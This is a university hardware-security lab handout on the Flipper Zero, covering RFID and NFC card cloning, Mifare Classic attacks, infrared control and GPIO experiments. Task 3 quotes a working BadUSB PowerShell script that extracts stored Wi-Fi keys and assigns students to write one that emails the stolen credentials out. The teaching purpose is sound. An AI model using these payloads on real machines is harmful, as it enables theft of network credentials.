

Software & Hardware Security Lab 6: Flipper Zero
====

Responsible person/main contact: Asad Hasan

## ToC
* [Preliminary tasks](#Preliminary-tasks)
* [Introduction](#Introduction)
    * [Practical arrangements of this lab](#Practical-arrangements-of-this-lab)
    * [Grading](#Grading)
    * [Deep Dive into Flipper Zero](#Deep-Dive-into-Flipper-Zero)


* [Tasks](#Tasks)
  * [Task 1](#Task-1)
  * [Task 2](#Task-2)
  * [Task 3](#Task-3)
  * [Task 4](#Task-4)

# Preliminary tasks

Get familiar with following background information about Flipper Zero and RFID Access Control.

* Flipper Zero on [wikipedia](https://en.wikipedia.org/wiki/Flipper_Zero)

  
Couple of articles explaining RFID Access Control systems
* Article 1: [RFID Access Control Breakdown](https://www.swiftlane.com/blog/rfid-access-control/)
* Article 2: [How RFID Access Control Works](https://www.rfidfuture.com/rfid-access-control.html)

# Introduction

This week’s theme is hardware security and how it can be exploited by hackers. In this lab you will be using Flipper Zero device to perform hardware security experiments. Introductry tasks revolve around theory of exploiting hardware
and advanced tasks include usage of actual device (Flipper Zero) to perform them. 

 is a portable multi-tool for pentesters and geeks in a toy-like body. It loves hacking digital stuff, such as radio protocols, access control systems, hardware and more. It's fully open-source and customizable and you can extend it in whatever way you like.


## Practical arrangements of this lab

This lab is little bit different than others because tasks 2, 3 & 4 require the usage of external device. Number of devices are limited which causes some difficulties to arrangements.

* Students are encouraged to do labwork in groups of 3 or 4 if possible. 
* Students are encouraged to borrow device do the lab ahead of schedule to balance load on actual lab week.
* We try to arrange loaning times so that everyone would have chance to hold device at least couple of days if they want.
* Answers to theoretical questions must be returned individually.


## Grading

Task of this lab are divided to 4 different tasks which have corresponding grades in table below. Notice that *Good-to-have skills* are only directional descriptions about required skill levels.

Task| Point | Description | Good-to-have skills
--|:--:|--|--
1|1|Getting familiar with flipper zero, understanding initial setup, reading and understanding technical articles about flipper and RFID access system | Article reading, Radio-frequency technology
2|3|NFC Card emulation with flipper zero and gaining access control. Mifare classic and infraded module | Knowing how to use flipper zero 
3|4|Engineering a BadUSB attack with flipper zero | Ducky scripting language, Linux, Powershell
4|5|Several alternatives for advanced experimenting with flipper zero based on your interest | Arduino, Hardware integration, Command-line interface

---

# Deep-Dive into Flipper Zero

## Some control functions

Device can be powered on by holding and pressing illustrated button




Device can be rebooted as shown


Charging icons


## Setting up a brand new Flipper Zero

Flipper Zero comes with an outdated firmware. In-order to use it, a firmware upgrade should be performed. Flipper zero stores all information on an SD card including databases and is also required for firmware upgrade. Make sure to install an SD card before updating the firmware.

[Qflipper](https://flipperzero.one/update) is a desktop application for updating firmware


**SD Card Installation:** Format SD card to exFAT or FAT32. Flipper zero has a built-in format system which can be used to do this.
SD Card stores the auxilary files that flipper calls databases. Many features of flipper zero require these auxilary files to work properly. Therefore, it is important to have an SD card mounted.


All signal keys, remotes and card information captured are stored on the SD card as well. 

## RFID Protocol Stack and Flipper Zero

Radio-wave technology is common nowadays in many places such as cards, gym keys, access machines e.t.c. The RF products are divided into two main broad categories: 

    High frequency tags 13.56MHz (low range, some of them referred to as NFC ~Near Field Communication) 

    Low frequency tags 125kHz (high range) 

High frequency tags are more secure and used in credit cards etc. Whereas, low frequency tags are less secure and used in generic access keys or cards for example.  
Moreover, high frequency tags support encryption, authentication and cryptography. Flipper Zero is constructed with dual-band RFID antenna and can interact with both of these.

---


# Tasks

Start your work from Task 1 and proceed to harder ones. Every task is designed to require more skills and amount of work than previous one.

Task 1 and 2 together are designed to take about 3-4 hours to complete. Try to finish those at lab session. You can borrow equipment if you want to continue working with those tasks at home.

Tasks 3 and 4 are more laborious and it is likely that those can not be done in time limit of single lab session. You must discuss about borrowing equipment with lab assistants if you want to do those tasks.


> Some tasks require you to make videos and write reports. Videos naming format: <task#_video> for example <task2C_video> 

> Compress videos into an archive and upload to moodle return box alongside your answer return template. 

**If you are doing this work in group, remember answers to theoretical questions must be individual. You are encouraged to research and discuss together but write answers in your OWN WORDS**

## Task 1

Task 1 tasks are meant to be relatively simple tasks to help you understand what is the Flipper Zero device and what can be done with it. You will return answers to theoretical questions.

Read the section [Deep Dive into Flipper Zero](#Deep-Dive-into-Flipper-Zero) before starting this task.

## A) Getting started with a brand new device

Assuming you get your hands on a brand new flipper zero, describe the steps you would take to make your device ready for hardware pentesting and hacking.
Include details about connecting flipper with a computer and how files can be transferred.

**Write your answer in a step-by-step guide indicating what should be done**


## B) Understanding RFID and how flipper interacts with it

This task has three sub-questions and you are expected to carry out your research by surfing the internet or watching videos about flipper. Answer the following three questions

**What different kind of RFID tags are present in market? Is there a way to distinguish between them?**

It is necessary to know the RFID tag types, so that you know how to interact with them and then work on exploiting them with flipper zero.


**How flipper zero interacts with different RFID tags. How tag readers work in general?**

You should explain how the technology within flipper zero interacts with different types of RFID tags/cards. Furthermore, explain how tag readers work. What happens when a tag comes near to a reader?

__Things to Consider__
Your answers should consider describing power source of these tags and readers, mechanism to activate them, how do they emit radiations and utilization offrequency bands.

**What tools exist in market and mobile applications to access/read RFID devices**

Links to devices and/or screenshot of mobile applications is enough. Write a small description about these tools/application.


---

## Task 2

Flipper zero can read and save information of many RFID tags and cards operating on low and high frequencey. Furthermore, these cards can be emulated by flipper zero. This bypasses the need to use those cards at all.

In this task you will learn basic usage of flipper device to read NFC cards, RFID tags and store them. Later, you will download saved files information and inspect them.

In the last part of this task, you'll familiarize yourself with Mifare Classic technology and explore infrared module of flipper zero.


## A) Reading cards and key tags

**Fist task is to read and save different cards, key tags and inspect saved files**. In this tutorial you will learn to read access control cards and tags.

Task is rather straightforward and requires you to put card/key at the back of flipper and executing correct module on device.

You are asked to read and inspect following cards and key tags:
* blank card (contact lab assistant to receive this)
* student card
* bus card
* blue key (contact lab assistant to receive this)
* sticker key (contact lab assistant to receive this)
* A card/key of your own choice (for example, gym key)

Each smart card contains an integrated chip with a unique permanent identification (UID) number burned-in during the manufacturing process. This UID is often referred to as the Card Serial Number (CSN). The card serial number is not encrypted and any reader that is ISO compliant can read the card serial number. 

**For each of the 6 cards/keys mentioned above, return answer to following questions**

**What kind of card/key is it? Is it 125kHz or NFC**

**What is the UID of card/key?**

**Can this card/key emulated by flipper zero?**

**Transfer saved card/key file to your computer and open it with text editor. What do you see? Paste screenshot**

>[!IMPORTANT]
>_Blur or remove any personal information from screenshots of your card/key text files._
> _Remember to delete all saved files from flipper once you've transferred them to your system._
---

## B) Breaking into Mifare Classic Cards

### Background
MIFARE Classic is a type of contactless smart card technology which is used in various applications such as access control, public transportation, payment systems, and more. It's one of the most widely used contactless card technologies in the world.

MIFARE Classic cards operate on radio frequency identification (RFID) principles, allowing communication between the card and a reader without the need for physical contact. These cards contain a built-in integrated circuit (IC) that can store and process data. The data is typically organized into sectors and blocks, and security features like encryption and authentication can be applied to protect the stored information.

MIFARE Classic cards come in various memory capacities, such as 1KB or 4KB, and are known for their ease of integration and cost-effectiveness. However, it's important to note that over time, security vulnerabilities have been discovered in the MIFARE Classic technology, leading to concerns about its use in applications that require high-security standards. As a result, NXP has developed more advanced and secure iterations of the MIFARE technology, such as MIFARE Plus and MIFARE DESFire, which offer improved security features and are recommended for applications with stricter security requirements.

### Objective

**Your next task is to study Mifare Classic and come up with a report explaining how Mifare classic card technology can be exploited**. To help you get started, read the following research article: [A Practical Attack on the MIFARE Classic](https://link.springer.com/content/pdf/10.1007/978-3-540-85893-5_20.pdf)

__NOTE__: Carry out your own study about Mifare Classic and generate a report detailing how to break this technology. A well documented report would comment on reader module as well

> This sub-part is worth 1 point alone!

---

## C) Infrared Module


Majority of electronic devices nowdays operate on infrared technology. Flipper zero comes with the infrared transmitter that can transmit signals to control electronics such as TVs, air conditioners, stereo systems and more. The device also has an IR receiver that can receive signals and save them to the library, so you can store any of your existing remotes to transmit commands later, and upload to the public IR Remote database to share with other Flipper users.

**In this task you will use flipper zero device to control an electronic device of your choice and record a small video of successful experiment**

**Which IR operated device did you operate with flipper?**

**Did you record video of experiment?**

If you recorded video, upload it to moodle with your report submission.


---
## Task 3
### Design a Bad USB attack to steal password by plugging in flipper zero, and sending them over email

In this task, you will learn how to use the badUSB module in flipper and convert it into a powerful badUSB for pentesting attacks.

BadUSB attacks involve exploiting the inherent trust that USB devices have with computers. These attacks typically involve reprogramming a USB device (such as a flash drive or even a seemingly harmless device like a keyboard) to act as a malicious device, which can then execute various harmful actions. 

For example, a BadUSB attack might involve creating a USB device that, when plugged into a computer, presents itself as a keyboard and starts typing out a series of commands to the operating system. These commands could include downloading and executing malicious scripts that attempt to extract sensitive information like WiFi credentials from the system. 

Since WiFi credentials are often stored on a computer to allow automatic connections to networks, a BadUSB attack could potentially target the relevant configuration files or use other methods to access and steal these credentials. These credentials can then be exported via email using powershell script.


### Getting familiar with Ducky Script

## A) Writing a script to open shell on linux

In this task you will get familiar with writing scripts that can open shell.

Ducky Script Tutorial: [link](https://web.archive.org/web/20220816200129/http://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

if you're interested to look for BadUsb scripts for flipper, check [this](https://github.com/UNC0V3R3D/Flipper_Zero-BadUsb) out


Take a look at code below which opens a powershell on windows platform.

```shell
DELAY 100
GUI r
DELAY 100
STRING powershell
DELAY 100
```

**Write a script to open a shell on linux. Paste your script below**


__NOTE__: You can test your script only on Rubber Ducky USB compatible devices. These hardware tools are specifically designed to emulate a keyboard and execute scripts on a target computer. 

__HINT__: If you need to test your solution, copy paste it to flipper zero's badusb folder. Connect it with pc and run the script from your device!


## B) Engineering a complete script to steal password from a text file and send it over email

Before proceeding with this task, you'll need to install Powershell on your virtual machine. Install instructions are given below for arch linux [reference guide](https://ephos.github.io/posts/2018-9-17-Pwsh-ArchLinux)

```shell
# POWERSHELL INSTALL SCRIPT FOR ARCH LINUX
# Clone the AUR package down with git, use the "Git Clone URL"
git clone https://aur.archlinux.org/powershell-bin.git

# Navigate into the directory from the Git clone
cd powershell-bin

# AUR Packages are community created, MAKE SURE YOU REVIEW THE FILES BEFORE INSTALL!
cat PKGBUILD

# Run makepkg to build the AUR package, '-s' will sync dependencies, '-i' will install the package after build.
makepkg -si
```


You are given a sample network file called networkfile.nmconnection which contains Wifi credentials for a network called 'Cross'
Now that you're familiar with ducky scripts, your end goal should be a script which automatically extracts whole password and SSID for you from this file. Afterwards, it should send this password and SSID
over email to win10_9121@outlook.com!

Flipper zero comes with a sample Wi-Fi credentials stealing script written in ducky language in following directory: _SD Card/badusb/Wifi-Stealer_ORG.txt_
The filename is: Wifi-Stealer_ORG.txt

Contents of the file are shared below for your reference:

```shell
REM Title: Wifi Stealer
REM Author: 7h30th3r0n3
REM Target: Tested on Windows 7/8/10/11 
REM Version: 1.0
REM Category: Grabber
REM Extracts the SSID and wifi shared key and puts them in a txt file named 0.txt on the desktop
GUI r
DELAY 500
STRING powershell 
ENTER
DELAY 500
STRING cd C:\Users\$env:UserName\Desktop; netsh wlan export profile key=clear; Select-String -Path WiFi-* -Pattern 'keyMaterial' | % { $_ -replace '</?keyMaterial>', ''} | % {$_ -replace "C:\\Users\\$env:UserName\\Desktop\\", ''} | % {$_ -replace '.xml:22:', ''} > 0.txt; del WiFi-*;exit
ENTER
```
Your job is to first download given configuration file on your virtual linux. Next, study ducky script, powershell and bad USB attacks to come up with a script that finds the configuration file for Wifi password, SSID and exports them over email as plain text.


**Recommended way to proceed:**

**i.**	Download wifi credentials file on your machine.

**i.**	Write ducky script on your machine. Save file

**ii.**	Transfer to flipper device badusb folder using qFlipper app

**iii.** Connect flipper with a virtual linux VM

**iV.**	Run your script from flipper for testing

**v.** Repeat if no success with correct results 


__HINT__: You should place your script in following directory of flipper: _SD Card/badusb/<your_script>_ 

This task will require some trial and error from your side before finally being able to steal credentials and send automatically over email. Partial marks can be awarded to good attempts.

>[!WARNING]
> Bad USB scripts can be very dangerous as they execute shell commands. Writing a wrong script can potentially damage the functionality of your OS or machine. Therefore, it is advised
to carry out badUSB attack on a virtual linux VM, to avoid harming your computer.

### What to return in this task?

You must return next 2 items to return template to gain points from this task:
1. Your working attack script.
2. Screenshot of output(s) after your code has successfully solved correct password & SSID. Screenshot of wifi_credentials.txt file


---
## Task 4

Still want something more complex? You are freely encouraged to dive into your creativity to come up with a possible experiment. Sample options are given as a reference only. You can come up with your own and write a report about it.

There is no answer template for this tasks, but you are expected to make videos of successful experimentation as a proof and write a report:
 * Report must clearly show all the work you did. Otherwise it would be really hard to give you any kind of points.
 * Also remember that even if long and exhaustive report is usually considered as good, you do not have to be *too* exhaustive. We would like to see students use their time to do interesting experiments rather than using time to write overly long reports. You yourself decide what is important to tell and what is not.
 * Notice that even failed attempts might give you some points if report shows that your try was well thought out.

### What to return in this task?

You must return following 2 items for this task and any other supplimentary work (such as scripts, extracted info) you consider necessary:
1. A report explaining your plan of action, experiment and results. Write it in the return answer template file
3. Videos of experiments in which you are doing something with flipper zero

Videos should be compressed and uploaded to moodle directly with return answer template submission.

> Report could be as simple as:
 * What is the experiment about? Plan of action
 * Objective of this experiment? Intented outcome/result
 * Hardware and software setup required to achieve it
 * Actual experiment. Challenges and roadblocks faced
 * Record experiments in video

## Option 1. Flipper Zero and GPIO

Flipper Zero comes with a GPIO module. The term "GPIO" stands for General Purpose Input/Output, which refers to pins on a microcontroller or a similar device that can be used for both input and output operations, allowing communication with other hardware components.


Detailed information on the pinout and functionality of the pins can be found in the official flipper zero [documentation](https://docs.flipper.net/gpio-and-modules)

You can interface a hardware device of your choosing (anything compatible that you may have) OR _**you can borrow an arduino UNO from lab assisstants**_ to carry out this task. Image below shows borrowable equipment for this task


A serial communication channel can be established between flipper and arduino by connecting the RX, TX pins and grounding the connection. However, more information on this subject cannot be disclosed and it is the students responsibility to study, research and experiment further and come up with a solution that achieves some objective.

**A sample idea:** _**Firmware extraction of arduino**_

    Connect the Flipper Zero to the target device using relevant interfaces (JTAG, UART, SPI, etc.). 

    Use Flipper Zero's hardware plugins or modules to interface with the target's debug or communication ports. 

    Extract the firmware from the target device using the available interfaces. For example, you might use the UART module to capture data sent during the boot process.  

Helpful document: Click [here](https://arduino.stackexchange.com/questions/49476/is-it-possible-to-extract-a-hex-file-via-uart-from-an-arduino/49497#49497)    

If you plan to go with this option, you'll have to install arduino IDE on your linux machine. Instructions can be found below:
#### A note on installation of arduino IDE on arch linux 

Arduino IDE is not available in the Arch User Repository (AUR), which means you need to use an AUR helper like yay, brew or manually build and install the package. 

```shell
Install yay 

$ git clone https://aur.archlinux.org/yay.git 

$ cd yay 

$ makepkg –si 

Install arduino 

$ yay -S arduino 
```

## Option 2. Flipper Zero and CLI

Alternatively you can attempt to explore the flipper zero's command-line-interface from your computer. Flipper comes with a hidden CLI that can be used to send commands and establish communication channel on the frequency of your setting. 

"tio" (short for "tty input/output") is a command-line tool for serial communication that allows you to interact with serial devices like microcontrollers, modems, and more. You would require a tool like tio to establish a communcation channel between flipper and your device in-order to acces CLI at a specified baud-rate. Read more about the tool [here](https://github.com/tio/tio).


**A sample idea:** _**Establish a SubGhz communication channel**_

    Connect the Flipper Zero to your machine. Utilize a tool like tio and run the appropriate command to open the flipper CLI 

    For serial communcation to happen properly between flipper and CLI, you need to set correct baud rate.

    Once you've successfully accessed CLI you can see list of commands. Your task can be to establish a communication channel at the frequency of your choosing and broadcast some messages over it
    
    Record and document your progress. Include commands used in your manual.

__NOTE__: You might have to change some UDEV rules to allow the communication. It's upto you how you proceed with this option.

## Option 3. Your choice
If you have some other topic that uses Flipper Zero or is related to hardware security and you are interested on trying it you can do it and document the process and the results. For example, you could look for ideas about what other people are doing with Flipper Zero over Github and YouTube. Notice that to be accepted as task 4, your own idea must be about equal level of required skill and workload than option 1 and 2 are. __REMEMBER:__ before you do your special idea please contact the assistants and make sure that the topic is ok.

List of the sub-modules present in flipper:  

* NFC (high frequency) 
   
* 125kHz RFID 
   
* Infrared 
   
* Sub-GHz 
   
* Sub-GHz Remote 
   
* Sub-GHz Playlist 
   
* IR Remote 
   
* GPIO (Input/Output pins) 
   
* IButton 
   
* Bad USB 
   
* U2F (Open Authentication Standard)

The `Applications section` of the device contains useful folders too. It is worth noting that students can explore this section and come up with an experiment that achieves an objective and write a report about it to complete this task.

Notice that you can also just go and ask any additional ideas from course assistants. They might have some interesting basic ideas which are yet not so refined that those could be proposed in this documentation. But they are happy to share them with you and it is up to you to further refine idea.
